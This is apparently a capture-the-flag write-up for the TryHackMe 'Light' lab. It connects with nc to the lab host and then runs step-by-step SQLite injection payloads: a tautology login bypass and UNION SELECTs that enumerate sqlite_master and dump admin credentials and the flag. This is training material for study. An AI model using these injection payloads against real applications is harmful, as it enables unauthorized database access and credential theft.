 # Light


IP - 10.10.255.175


## Scanning and Enumeration

- The application is running on port 1337. You can connect to server by using ``` nc 10.10.255.175 1337 ```


## SQL Injection
- Step by step:


1). This proved the login form is vulnerable to SQL injection.
```
Please enter your username: ' OR '1'='1
Password: tF8tj2o94WE4LKC
```

2). This payload queries the internal sqlite_master table, which stores metadata about the database. By selecting tbl_name, we discovered the existence of a table called admintable, confirming the database is SQLite.
```
Please enter your username: smokey' Union Select tbl_name FROM sqlite_master WHERE type='table
Password: admintable
```

3). This query returns with a username from admintable.
```
Please enter your username: ' Union Select username FROM admintable '
Password: TryHackMeAdmin
```

4) This query returns the password for the TryHackMeAdmin user from admintable.
```
Please enter your username: ' Union Select password FROM admintable WHERE username='TryHackMeAdmin
Password: mamZtAuMlrsEy5bp6q17
```

5). This query retrieved the password for any user except TryHackMeAdmin, returning a flag which is the challenge's completion key.
```
Please enter your username: ' Union Select password FROM admintable WHERE username !='TryHackMeAdmin
Password: THM{SQLit3_InJ3cTion_is_SimplE_nO?}
```



